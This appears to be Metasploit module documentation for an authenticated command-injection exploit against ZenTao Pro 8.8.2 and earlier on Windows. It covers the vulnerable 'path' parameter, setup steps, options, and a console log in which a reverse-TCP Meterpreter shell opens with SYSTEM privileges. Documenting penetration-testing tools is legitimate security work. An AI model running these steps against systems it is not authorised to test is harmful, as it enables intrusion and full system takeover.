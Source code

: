 ## Vulnerable Application
This module exploits a command injection vulnerability in ZenTao Pro 8.8.2 and earlier versions in order to execute arbitrary commands with
SYSTEM privileges.
          
The module first tries to obtain the ZenTao Pro version from /pro/user-login.html. If a vulnerable version is found,
it attempts to authenticate to the ZenTao dashboard. It then tries to execute the payload by submitting fake repositories via
the 'Repo Create' function that is accessible from the dashboard via CI>Repo.
More precisely, the module sends HTTP POST requests to '/pro/repo-create.html' that inject commands in the vulnerable 'path'
parameter which corresponds to the 'Client Path' input field.

Valid credentials for a ZenTao admin account are required. This module has been successfully tested against ZenTao 8.8.1 and 8.8.2
running on Windows 10 (XAMPP server).

Vulnerable software for testing can be downloaded [here](https://www.zentao.pm/download.html)
and [here](https://sourceforge.net/projects/zentao/).
The easiest way to install the application is by downloading the 'One-Click Installation Package for Windows'.
The package for ZenTao 8.8.2 is available [here](https://www.zentao.pm/download/scrum-tool-team-collaboration-ztp8.8.2-413.html).
Installation is then just a matter of unzipping the package, launching the ZenTao Runner control panel via `Xampp\ start.exe`
and finally configuring and starting the server from ZenTao Runner. Detailed instructions are available [here]
(https://www.zentao.pm/book/zentaomanual/zentao-one-click-install-win-13.html).

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/windows/http/zentao_pro_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set USERNAME [username for the ZenTao Pro account]`
6. Do: `set PASSWORD [password for the ZenTao Pro account]`
7. Do: `set payload [payload]`
8. Do: `set LHOST [IP]`
9. Do: `exploit`

## Options
### PASSWORD
The password for the ZenTao Pro account to authenticate with. This option is required.
### TARGETPATH
The path on the target where commands will be executed. The default value is `C:\`.
### TARGETURI
The base path to ZenTao Pro. The default value is `/pro/`.
### USERNAME
The username for the ZenTao Pro account to authenticate with. This option is required.

## Targets
```
Id  Name
--  ----
0   Windows (x86)
1   Windows (x64)
```

## Scenarios
### ZenTao 8.8.2 running on Windows 10 (XAMPP server)
```
msf exploit(windows/http/zentao_pro_rce) > show options

Module options (exploit/windows/http/zentao_pro_rce):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   PASSWORD    zentao123        yes       Password to authenticate with
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      192.168.9.14     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT       80               yes       The target port (TCP)
   SRVHOST     0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT     8080             yes       The local port to listen on.
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                      no        Path to a custom SSL certificate (default is randomly generated)
   TARGETPATH  C:\              yes       The path on the target where commands will be executed
   TARGETURI   /pro/            yes       The base path to ZenTao
   URIPATH                      no        The URI to use for this exploit (default is random)
   USERNAME    admin            yes       Username to authenticate with
   VHOST                        no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.12     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows (x64)


msf exploit(windows/http/zentao_pro_rce) > run

[*] Started reverse TCP handler on 192.168.1.12:4444 
[+] Successfully authenticated to ZenTao 8.8.2.
[*] Executing the payload...
[*] Command Stager progress -  20.97% done (2049/9770 bytes)
[*] Command Stager progress -  41.94% done (4098/9770 bytes)
[*] Command Stager progress -  62.92% done (6147/9770 bytes)
[*] Command Stager progress -  83.89% done (8196/9770 bytes)
[*] Command Stager progress - 100.15% done (9785/9770 bytes)
[*] Sending stage (201283 bytes) to 192.168.9.14
[*] Meterpreter session 1 opened (192.168.1.12:4444 -> 192.168.9.14:50506) at 2020-07-08 15:01:22 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```
